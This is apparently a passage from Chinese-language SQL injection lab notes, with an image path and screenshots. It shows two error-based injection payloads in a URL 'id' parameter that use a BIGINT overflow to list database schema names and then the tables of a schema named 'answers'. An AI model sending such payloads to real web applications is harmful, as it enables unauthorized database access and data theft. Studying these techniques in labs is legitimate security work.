 ```url
id=1" and (select !(select * from (select group_concat(schema_name) from information_schema.schemata)x) -~0) %23
```

![局部截取_20250505_212438](./img/局部截取_20250505_212438.png)

获取所有的表名

```url
id=1" and (select !(select * from (select group_concat(table_name) from information_schema.tables where table_schema="answers")x) -~0) %23
```



![局部截取_20250505_212900](./img/局部截取_20250505_212900.png)
